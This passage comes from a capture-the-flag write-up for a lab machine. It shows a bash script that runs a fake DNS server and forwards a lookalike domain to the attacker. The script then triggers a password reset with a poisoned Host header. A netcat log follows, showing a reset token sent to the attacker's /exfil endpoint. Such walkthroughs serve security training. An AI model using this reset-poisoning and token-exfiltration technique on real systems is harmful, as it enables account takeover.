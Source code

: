 
`trigger.sh`:

    
    
    #!/bin/bash
    
    domain="gymxcrossfit.htb"
    sleep=180
    
    echo "[*] Starting DNS server"
    /opt/FakeDns/fakedns.py -c ./fakedns.conf &
    FAKEDNS=$!
    echo "[*] Forwarding zone"
    sudo unbound-control -s 10.10.10.232 forward_add +i $domain 10.10.14.13@53
    echo "[*] Triggering password reset"
    curl -s -X POST -H "Host: ${domain}/employees.crossfit.htb"  -H 'Content-Type: application/x-www-form-urlencoded' -H 'Referer: http://employees.crossfit.htb/password-reset.php' --data-binary 'email=david.palmer%40crossfit.htb' http://employees.crossfit.htb/password-reset.php | grep 'class="alert' | cut -d'>' -f2 | cut -d'<' -f1
    echo "[*] Sleeping $sleep seconds waiting for link click"
    sleep $sleep
    kill $FAKEDNS 
    

Running that returns a token to the `nc` listening on 81:

    
    
    oxdf@parrot$ nc -lnvp 81
    listening on [any] 81 ...
    connect to [10.10.14.13] from (UNKNOWN) [10.10.10.232] 8010
    POST /exfil HTTP/1.1
    Host: gymxcrossfit.htb:81
    User-Agent: Mozilla/5.0 (X11; OpenBSD amd64; rv:82.0) Gecko/20100101 Firefox/82.0
    Accept: */*
    Accept-Language: en-US,en;q=0.5
    Accept-Encoding: gzip, deflate
    Content-Type: text/plain;charset=UTF-8
    Content-Length: 36
    Origin: http://gymxcrossfit.htb
    Connection: keep-alive
    Referer: http://gymxcrossfit.htb/password-reset.php?token=f62cc32e31940141fde843ff01fc43cca36b374b66dfdeb011d789b2ae6c12994a4c140e5d4136e642f7cfba41b485ecddbb4ec0e4e490de644eb1120204efd6
    
    iqvDUFy9-oGWUv-59IYoxsjlZGtnrPDSZzZ0
    

#### Register

Now that I can fetch a token, I’ll try to use it to register a user on the
site. I don’t have an example of this request because it was removed from the
site. But based on what I found above, I have the field names from the form,
and I can assume it uses the same format as the `/api/login` POST.

I’ll add more JavaScript to try that request:

    
    